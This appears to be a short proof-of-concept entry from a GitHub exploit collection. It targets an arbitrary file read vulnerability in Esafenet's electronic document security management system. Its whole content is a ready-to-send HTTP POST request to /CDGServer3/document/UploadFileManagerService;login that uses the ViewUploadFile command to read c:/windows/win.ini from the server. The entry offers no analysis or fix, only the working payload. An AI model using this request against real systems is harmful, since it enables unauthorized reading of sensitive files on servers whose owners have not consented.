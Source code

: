 # esafenet_UploadFileManagerService_fileread

from: https://github.com/wy876/POC/blob/83ffd34e35da0bb8b1f8325dd4810e31b0d8a01a/%E4%BA%BF%E8%B5%9B%E9%80%9A%E7%94%B5%E5%AD%90%E6%96%87%E6%A1%A3%E5%AE%89%E5%85%A8%E7%AE%A1%E7%90%86%E7%B3%BB%E7%BB%9F-UploadFileManagerService-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md 
2024.5.20 @2

```
POST /CDGServer3/document/UploadFileManagerService;login HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0

command=ViewUploadFile&filePath=c:/windows/win.ini&fileName1=111111
```
